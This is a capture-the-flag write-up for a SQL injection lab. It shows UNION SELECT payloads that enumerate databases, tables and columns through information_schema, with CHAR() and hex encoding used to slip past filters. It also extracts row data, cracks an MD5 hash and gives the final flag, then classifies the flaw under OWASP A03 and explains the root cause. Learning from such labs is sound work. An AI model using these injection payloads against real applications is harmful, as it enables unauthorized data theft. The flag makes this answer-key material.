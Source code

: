 # Extract the Final Flag from `Member_images.list_images`

### **1. Understand the scenario**

* You have a vulnerable form that reflects database query results (`First name` and `Surname`) using a **`UNION SELECT` SQL injection**.
* You already enumerated tables and found `Member_images.list_images`.
* Using `UNION SELECT`, you retrieved the **columns** and **data** from this table.
i had already grab all the databases inside with this : 

```sql 
1 UNION SELECT schema_name, NULL FROM information_schema.schemata 

```
and after investigating them one after other, **Member_images** is the one.
and it has one only table *list_images*, that i extracted using this command 

```sql 
1 UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 105, 109, 97, 103, 101, 115)


hint: CHAR(77, 101, 109, 98, 101, 114, 95, 105, 109, 97, 103, 101, 115) = 'Member_images'
```

---

### **2. List the columns**

Injected:

```sql
1 UNION SELECT group_concat(column_name), NULL
FROM information_schema.columns
WHERE table_name=0x6c6973745f696d61676573
  AND table_schema=0x4d656d6265725f696d61676573-- -
```

```sql
The value 0x6c6973745f696d61676573 is a hexadecimal representation of the string list_images.
And The value 0x4d656d6265725f696d61676573 represents the string Member_images, a database schema.
```


* Output:

```
id, url, title, comment
```

* Only **text columns** (`title` and `comment`) are useful for finding hints or flags.

---

### **3. Extract the data**

Injected:

```sql
1 UNION SELECT title, comment FROM Member_images.list_images-- -
```

* Output highlights the `comment` associated with the title `Hack me ?`:

```
First name: Hack me ?
Surname : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```
Using

* **Observation:** The comment contains an **MD5 hash** and instructions:

  1. Decode the MD5 hash.
  2. Convert the result to lowercase.
  3. Apply SHA-256 on the lowercase result.

---

### **4. Follow the instructions step by step**

#### a) MD5 hash given:

```
1928e8083cf461a51303633093573c46
```

#### b) Step 1 — MD5 decode

* You can use **online MD5 lookup** tools (or a local script).
* Decoded result:

```
albatroz
```

#### c) Step 2 — lowercase

* Convert `albatroz` → `albatroz`

#### d) Step 3 — SHA-256

* Compute SHA-256 of `albatroz`.
* the **final flag** :  f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

### **5. What the vulnerability is (OWASP classification)**

#### Vulnerability name: SQL Injection — arbitrary query execution and data exfiltration via crafted input (e.g., UNION SELECT, information_schema enumeration).

OWASP Top 10 (2021) classification:
A03 — Injection.

Why: The application directly incorporates attacker-controlled input into SQL statements without proper parameterization or allowlisting, so an attacker can change the intended query logic to enumerate schemas/tables, read sensitive data, or execute destructive queries.

### ** 6. Root cause **

the application interpolates user input directly into SQL queries (no parameterization) and allows arbitrary identifiers to influence the query. This allowed an attacker to inject UNION SELECT payloads to enumerate schemas/tables/columns and exfiltrate row data. Contributing factors: overly permissive DB privileges and lack of output filtering/least privilege.





> tips:
* information_schema is a metadata database provided by most RDBMSs
* schemata is the table that lists all schemas/databases on the server
* information_schema is a metadata database listing databases/tables/columns
* CHAR(...) / 0x... encoding  used to bypass naive filters and quoting differences between DB engines.
* Column-count & type matching — attackers often trial-and-error to match the number and datatypes of columns returned by the original query
* Why GROUP_CONCAT / GROUP_CONCAT(column) — to combine column names into a single output cell
